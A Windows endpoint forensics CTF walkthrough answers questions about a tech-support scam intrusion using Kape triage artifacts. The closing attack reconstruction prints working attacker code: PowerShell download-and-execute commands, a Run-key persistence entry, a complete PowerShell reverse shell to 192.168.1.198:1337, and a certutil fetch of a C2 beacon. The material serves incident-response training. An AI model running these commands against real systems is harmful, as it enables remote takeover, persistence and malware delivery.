

# Windows Forensic CTF Walkthrough

## Summary

This CTF is designed to be completed on your own VM or host. The TryHackMe room is used as a scoring server. The forensic triage collection, which provides the artifacts needed to complete the CTF can be downloaded from the TryHackMe room or from the link below. 

[](https://tryhackme.com/jr/windowsendpointforensicsctf)

[Kape-Out.zip](Exercises/Kape-Out-CTF.zip)

## Scenario

A user self-reported that on 15 May 2024 she received a suspicious email claiming that she was getting charged for a subscription renewal for Geek Squad.  (See below.)


She was concerned because she never had a Geek Squad subscription. Additionally, she only had 24 hours to cancel and get a refund. She called the number and they told her to get the refund, they needed to remove the Geek Squad access software. In order to do that they told her to go to a website and download some software that gave them access to her computer so that they could remove the Geek Squad access software.    She complied.  Roughly 30-45 minutes later she told a co-worker about the situation and they told her to immediately report it to the SOC.

After the user reported it, the SOC immediately took the system offline and conducted a triage collection using Kape.  Unfortunately, the user was not connected to the organization VPN during the event, so there is no SIEM data or network packet capture. The investigation will be based on the forensic artifacts collected with Kape.

Download the Kape collection and use your Windows VM to do the investigation and answer the questions in the following tasks.

**Question 1** 

**What User profile was used during this event?**

**Answer: Vickey**

There are several ways to get this answer. The screenshot below is from BrowsingHistoryView.


**Question 2**

**What Browser does the user primarily use?**

**Answer: Chrome**

The fastest way to get this answer is using BrowsingHistoryView. The screenshot shows most of the activity was using Google Chrome.


**Question 3**

**What webmail service did the user use?**

**Answer: Gmail**

Once again, BrowsingHistoryView shows the gmail is being used.


**Question 4**

**What email address was the user using?**

**Answer: 8ugz.mail@gmail.com**


**Question 5**

**What is the name of the email attachment the user downloaded?**

**Answer: new.zip**

Using the output of Hindsight we can filter for downloads, as shown below.


**Question 6**

**What tool did the user download?**

**Answer: Teamviewer**


**Question 7**

**How did the user initially access the site for remote management tool?  (visit type/transition)**

**Answer: Typed URL**


**Question 8**

**How did the user access [espn.com](http://espn.com/)? (visit type/transition)**

**Answer: Link**


**Question 9**

**What ransomware family did CISA report on in the article on Bleeping Computer?** 

**Answer: Black Basta**


**Question 10**

**Is there a persistence mechanism? (Y or N)**

**Answer: Y**

**Question 11**

**If #10 is yes, what is the flag for the persistence mechanism?**

**Answer: FLAG061**

As seen below, Registry Explorer can be used to answer both Questiion 10 and Question 11.

The Run key is being used for persistence.


**Question 12**

**Is prefetch enabled on the system? (Y or N)**

**Answer: Y**

As seen below, the SYSTEM registry hive includes prefetch parameters and it is enabled.


**Question 13**

**Was command and control beacon established? (Y or N)**

**Answer: Y**

**Question 14**

**If C2 was established, what is the name of the beacon?**

**Answer: COURAGEOUS_DRAGSTER.exe**

Questions 13 and 14 can be answered by looking at network connections (Event ID 3) in the sysmon logs using Event Log Explorer. As seen below there was a large number of network connections going to the same IP address initiated by COURAGEOUS_DRAGSTER.exe.


**Question 15**

**What was the flag placed in the Downloads folder at  2024-05-15 12:36:40.830**

**Answer: FLAG007**

As seen below, you can search for file creation (Event ID 11) at that timestamp in the Sysmon logs.



**Question 16**

**What was the flag downloaded to the download folder at 2024-05-15 12:39:01.615**

**Answer: FLAG714**


**Question 17**

**What IP address was FLAG734 downloaded from?**

**Answer: 192.168.1.198**

As seen below, the PowerShell logs captured the Invoke-WebRequest command for FLAG734.


**Question 18**

**What is the file path for where FLAG734 was downloaded to?**

**Answer: C:\Windows\Temp**


**Question 19:** 

**What port number did the reverse shell use?**

**Answer:1337**


**Question 20**

**What is the IP address for [raw.githubusercontent.com](http://raw.githubusercontent.com/)?**

**Answer: 185.199.108.133**


**Question 21**

**What enumeration command was executed at 2024-05-15 12:45:21.857 (UTC)** 

**Answer: whoami**

Filter Sysmon logs for Event ID 1 (Process Creation)


**Question 22**

**What enumeration command was executed at 2024-05-15 12:45:40.962 (UTC)**

**Answer: ipconfig**


**Question 23**

**What time was TeamViewer executed?**

**Answer: 2024-05-15 12:32:11**

Using the output (text files) from regripper we can search for UserAssist.


**Question 24**

**What time (in UTC) did the TeamViewer session end?**

**Answer: 2024-05-15 12:47:40.553**

Filtering for Sysmon Event ID 5 (Process Terminated) we can find the time TeamViewer was terminated.


**Question 25**

**What executable was used to download the C2 beacon?**

**Answer: certutil.exe**

Filtering for Event ID 1 (Process Creation) we can discover certutil.exe being used to download the C2 beacon.


**Question 26**

**What did the malicious actor disable shortly after making the remote connection?**

**Answer: Microsoft Defender Antivirus Real-time Protection**

Filter the Microsoft-Windows-Windows-Defender logs for Event ID 5001


**Question 27**

**What was the name of the malware that was restored from quarantine?**

**Answer: VirTool:Win32/Sliver.D!MTB**

Filter the Windows Defender logs for Event 1009.


**Question 28**

**What is the name of the .zip file accessed at 2024-05-15 12:30:10?**

**Answer: new.zip**

Using the output (text files) from regripper we can search for RecentDocs.


**Question 29**

**What is the flag in the Temp directory that was last accessed at 2024-05-15 12:43:32?**

**Answer: FLAG099**

Using the output (text files) from regripper we can search for Shellbags. 


## How the attack occured

When the victim called the number in the phishing email, she was told to download TeamViewer and allow access. Using the TeamViewer session, the attacker dropped FLAG007.ps1.

```powershell
mkdir C:\Windows\Temp\FLAG099; 
#Download and execute FLAG714.ps1
Invoke-WebRequest -URI https://raw.githubusercontent.com/M122/logz/main/itunes.ps1 -OutFile c:\Windows\Temp\FLAG714.ps1; c:\Windows\Temp\FLAG714.ps1;
#Download and execute google1.ps1
Invoke-WebRequest -URI https://raw.githubusercontent.com/M122/logz/main/google1.ps1 -OutFile c:\Windows\Temp\FLAG061.ps1; c:\Windows\Temp\FLAG061.ps1;
# Set the path to FLAG061.ps1
$FLAG061Path= "c:\Windows\Temp\FLAG061.ps1"
# Set the name for the registry entry (you can customize this)
$registryEntryName = "FLAG061"
# Set the registry key path
$registryKeyPath = "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run"
# Create or update the registry entry
Set-ItemProperty -Path $registryKeyPath -Name $registryEntryName -Value $FLAG061Path;
```

This script performs several actions:

1. It creates a directory named "FLAG099" in the **`C:\Windows\Temp\`** directory.
2. It downloads a PowerShell script named "itunes.ps1" from a GitHub repository and saves it as "FLAG714.ps1" in the **`C:\Windows\Temp\`** directory, then executes it.
3. It downloads another PowerShell script named "google1.ps1" from a GitHub repository and saves it as "FLAG061.ps1" in the **`C:\Windows\Temp\`** directory, then executes it.
4. It sets a variable **`$FLAG061Path`** to the path of "FLAG061.ps1".
5. It sets the name for a registry entry to "FLAG061".
6. It sets the registry key path to "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run".
7. Finally, it creates or updates a registry entry with the name "FLAG061" and sets its value to the path of "FLAG061.ps1", so that the PowerShell script will be executed every time the current user logs in.

After executing FLAG007.ps1, the attacker dropped another file (FLAG897.ps1).

```powershell
@ECHO off
powershell -Command "Invoke-WebRequest -URI http://192.168.1.198:8000/FLAG734.txt -OutFile c:\Windows\Temp\FLAG734.bat; c:\Windows\Temp\FLAG734.bat"
```

Which downloaded and executed a file FLAG734.bat, seen below.

```powershell
powershell -w hidden -nop -c $a='192.168.1.198';$b=1337;$c=New-Object system.net.sockets.tcpclient;$nb=New-Object System.Byte[] $c.ReceiveBufferSize;$ob=New-Object System.Byte[] 65536;$eb=New-Object System.Byte[] 65536;$e=new-object System.Text.UTF8Encoding;$p=New-Object System.Diagnostics.Process;$p.StartInfo.FileName='cmd.exe';$p.StartInfo.RedirectStandardInput=1;$p.StartInfo.RedirectStandardOutput=1;$p.StartInfo.RedirectStandardError=1;$p.StartInfo.UseShellExecute=0;$q=$p.Start();$is=$p.StandardInput;$os=$p.StandardOutput;$es=$p.StandardError;$osread=$os.BaseStream.BeginRead($ob, 0, $ob.Length, $null, $null);$esread=$es.BaseStream.BeginRead($eb, 0, $eb.Length, $null, $null);$c.connect($a,$b);$s=$c.GetStream();while ($true) {    start-sleep -m 100;    if ($osread.IsCompleted -and $osread.Result -ne 0) {      $r=$os.BaseStream.EndRead($osread);      $s.Write($ob,0,$r);      $s.Flush();      $osread=$os.BaseStream.BeginRead($ob, 0, $ob.Length, $null, $null);    }    if ($esread.IsCompleted -and $esread.Result -ne 0) {      $r=$es.BaseStream.EndRead($esread);      $s.Write($eb,0,$r);      $s.Flush();      $esread=$es.BaseStream.BeginRead($eb, 0, $eb.Length, $null, $null);    }    if ($s.DataAvailable) {      $r=$s.Read($nb,0,$nb.Length);      if ($r -lt 1) {          break;      } else {          $str=$e.GetString($nb,0,$r);          $is.write($str);      }    }    if ($c.Connected -ne $true -or ($c.Client.Poll(1,[System.Net.Sockets.SelectMode]::SelectRead) -and $c.Client.Available -eq 0)) {        break;    }    if ($p.ExitCode -ne $null) {        break;    }}  
```

FLAG734.bat establishes a reverse shell connection to a 192.168.1.198 and 1337. Here's a breakdown of what it does:

1. It initializes variables **`$a`**, **`$b`**, **`$c`**, **`$nb`**, **`$ob`**, **`$eb`**, **`$e`**, **`$p`**, **`$is`**, **`$os`**, **`$es`**, **`$osread`**, and **`$esread`**. These variables are used for setting up the TCP connection, reading from and writing to streams, and handling input/output/error redirection for the spawned command shell (**`cmd.exe`**).
2. It sets the IP address (**`$a`**) and port number (**`$b`**) to establish the connection.
3. It creates a TCP client object (**`$c`**) and sets its buffer size.
4. It creates byte arrays for reading from and writing to streams.
5. It creates a UTF8 encoding object.
6. It creates a new process object (**`$p`**) for running **`cmd.exe`**.
7. It configures the process object's start info, setting up input/output/error redirection and disabling shell execution.
8. It starts the process (**`$q`**).
9. It enters a loop where it continuously checks for data from the command shell's output and error streams, as well as for data from the established TCP connection. It reads data from these streams and writes it to the TCP stream, effectively relaying input/output/error between the spawned command shell and the established reverse shell connection.

Once the actor got the reverse shell, he ended the TeamViewer session.

The actor then used the reverse shell to deliver and execute the command and control beacon (COURAGEOUS_DRAGSTER.exe) using certutil.exe. 

```powershell
certutil  -urlcache -f http://192.168.1.198:8000/COURAGEOUS_DRAGSTER.exe COURAGEOUS_DRAGSTER.exe
```

The C2 beacon was active until the system was isolated.